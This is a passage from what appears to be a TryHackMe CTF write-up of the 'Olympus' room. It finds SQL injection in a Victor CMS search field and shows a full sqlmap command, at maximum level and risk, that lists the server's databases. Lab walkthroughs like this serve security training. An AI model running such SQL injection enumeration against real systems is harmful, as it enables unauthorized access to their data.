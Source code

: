 ![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Olympus-Write-Up/images/olympus_webmaster.png?raw=true)

Upon visiting we see Victor CMS. Searching for exploits reveals that the search field is vulnerable to SQL Injection. 
We capture the request in burpsuite right click and choose save item. Then we run sqlmap with following flags.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Olympus-Write-Up/images/burp_request_sql_olympus.png)

```
# sqlmap -r r.req --level 5 --risk 3 --batch --dbs                           
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
``` 
